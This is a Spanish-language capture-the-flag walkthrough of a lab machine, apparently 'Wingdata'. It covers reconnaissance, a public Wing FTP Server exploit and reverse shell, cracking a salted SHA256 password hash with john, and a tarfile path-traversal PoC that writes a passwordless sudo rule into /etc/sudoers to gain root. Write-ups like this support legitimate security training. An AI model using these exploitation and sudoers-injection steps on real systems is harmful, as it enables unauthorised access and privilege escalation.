# Wingdata

```bash
nmap -p- -sCV --open --min-rate=5000 -n 10.129.9.155 -oN nmapScan.txt
```



- Tenemos un subdominio -> ftp.wingdata.htb
Encontramos un Wing ftp server v7.4.3 -> miraremos exploits



- Con gobuster encontramos algun directorio interesante que podríamos inspeccionar



- Encontramos un exploit en searchsploit


Conseguimos ejecutar un whoami



- Usamos otro exploit porque este ha petado -> uno de github buscando por wingftp 7.4.3 github poc



Nos enviamos una shell

- La shell es un poco mala por lo que usando el oneliner de bash -c ... nos enviamos la bash a otro
```bash
nc -nlvp
```

wingftp

## Escalada

- no sudo
- no SUID
- Usuario wacky para escalar

- En /var/log/journal encontramos un archivo con permisos de grupo sguid pero no parece ser importante

- Encuentro una posible contraseña en */opt/wftpserver/Data/1/users/wacky.xml*



- En el archivo de conf de */opt/wftpserver/Data/1/s/settings.xml* vemos un saltenabled -> lo que nos indica que el hash anterior encontrado tendrá un salt agregado
Vemos que es de tipo SHA256 también
Vemos que el salt es WingFTP



- intentamos crackear con john añadiendo al final el SALT  (append) o si no probando al principio (prepend)

- Nos crearemos un archivo *john.conf* en el que crearemos la regla *WingFTP_append*
donde añadiremos al final con $ todos los caracteres del salt *WingFTP*
```bash
john --format=Raw-SHA256 --config=john.conf --rules=WingFTP_append --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



Obtenemos la pass
!#7Blushing^\*Bride5WingFTP
Luego la contraseña sin el salt será
**!#7Blushing^*Bride5**
wacky

## Escalada

Con
```bash
sudo -l
```

encontramos un script que parece que restablece backups y se puede ejecutar con sudo



Hay varias validaciones que cumplir para restablecer el archivo tar

- Vemos una librería tarfile -> buscamos vulnerabilidades



[https://github.com/google/security-research/security/advisories/GHSA-hgqp-3mmf-7h8f](https://github.com/google/security-research/security/advisories/GHSA-hgqp-3mmf-7h8f)

- Copiamos el poc cambiando
e.linkname ->
```bash
/../../../../../../../etc
```

f.linkname ->
```bash
escape/sudoers
```

content ->
```bash
b"wacky ALL=(ALL) NOPASSWD: ALL\n"
```



Lo que haremos será meter en el */etc/sudoers* permisos para ejecutar sin contraseña cualquier binario para el usuario *wacky*

- Ejecutamos el *poc.py*
```bash
python3 poc.py
```

- Se genera un *poc.tar* malicioso

- Lo pasamos a la carpeta */opt/backup_clients/backups* y le cambiamos el nombre para que cumpla con los requisitos del script en python que restablece el backup
```bash
mv poc.tar /opt/backup_clients/backups/backup_1001.tar
```

- Ejecutamos el script de restore con sudo
```bash
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_1001.tar -r restore_poc
```



- Obtenemos root
```bash
sudo -s
```

root
